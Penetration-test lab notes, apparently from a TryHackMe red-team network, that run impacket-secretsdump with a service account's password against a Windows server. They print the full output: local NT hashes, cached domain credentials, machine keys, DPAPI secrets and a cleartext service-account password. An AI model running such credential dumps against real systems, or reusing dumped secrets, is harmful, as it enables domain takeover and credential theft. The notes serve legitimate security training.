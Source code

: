 **NOTE:** All the following must be run from Server1.

Service accounts have more privileges than normal domain users. With the `svcScanning` account, we can carry out further attacks such as dumping secrets from the AD machines.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcScanning:'Password1!'@10.200.113.31`


> [!NOTE] Server1 hashes
> Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

### Service RemoteRegistry is in stopped state

Starting service RemoteRegistry

### Target system bootKey

0x90cf5c2fdcffe9d25ff0ed9b3d14a846

### Dumping local SAM hashes 
(uid:
rid:lmhash:nthash)

<font color="#00b050">Administrator:</font>500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::

<font color="#00b050">Guest:</font>501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">DefaultAccount:</font>503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">WDAGUtilityAccount:</font>504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

<font color="#00b050">THMSetup:</font>1008:aad3b435b51404eeaad3b435b51404ee:d37f688ca5172b5976b714a8b54b40f4:::

<font color="#00b050">HelpDesk:</font>1009:aad3b435b51404eeaad3b435b51404ee:f6ca2f672e731b37150f0c5fa8cfafff:::

<font color="#00b050">sshd:</font>1010:aad3b435b51404eeaad3b435b51404ee:48c62694fd5bbca286168e2199f9af49:::

### Dumping cached domain logon information 
(domain/username:hash)

<font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca

<font color="#00b050">CORP.THERESERVE.LOC/svcScanning</font>
$DCC2$10240#svcScanning#d53a09b9e4646451ab823c37056a0d6b

### Dumping LSA Secrets

#### $MACHINE.ACC 

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes256-cts-hmac-sha1-96:</font>491598bf647972748c617aabd5efabb08101de295064485f53617f726c5269bb

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes128-cts-hmac-sha1-96:</font>d57ac7c73d110a704d927db338eaebd1

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">des-cbc-md5:</font>
76a19dbfe007292c

<font color="#00b050">CORP\SERVER1$:plain_password_hex:</font>9ef03e6264985bee7d06dc65c33ade8cc65b4dddd1153a62799828a90f7380ddb9ece90d8d33ee1a9a8ba2edbc1ece7b708dd8590a3a2b6c81c0d0f5c838cbfec92cfac5b74c56508bfdfc7b4a5679d8faf602912edae9685ee71caf29f60ad75ad7b5e7fc53beb4d55cd42284a6b4f5c834d71ce7d94aaea464f724fe6cfc0fdc4925289dcc44baf76c5f2d50a45f659b403b015f7c09e62b94425b65b9754005fd2c142130bc0ba3c837d4b660f6360312cdd6adc193eb2abe431f0fbd802164c56402edbd7718f57923ca72bf2b8114fb8a1c29ff1478876ed95fdc9032488f255bea3fb555952d49be510c36d9ba

<font color="#00b050">CORP\SERVER1$:</font>aad3b435b51404eeaad3b435b51404ee:955ca6f4b9f3b6ab69bd0b254774311f:::

### DPAPI_SYSTEM 

<font color="#00b050">dpapi_machinekey:</font>
0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d

<font color="#00b050">dpapi_userkey:</font>
0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382

### NL$KM 

 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...

<font color="#00b050">NL$KM:</font>8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2

### SC_SYNC 
<font color="#00b050">svcBackups@corp.thereserve.loc:</font>
q9nzssaFtGHdqUV3Qv6G

Cleaning up... 
Stopping service RemoteRegistry

## Intersting discoveries

> There are a couple of things from this output that are of most interest.

- The Administrator’s NTLM hash.
	- <font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
	- $DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
- The ClearText password for `svcBackups` account.
	- <font color="#00b050">svcBackups@corp.thereserve.loc:</font>
	- q9nzssaFtGHdqUV3Qv6G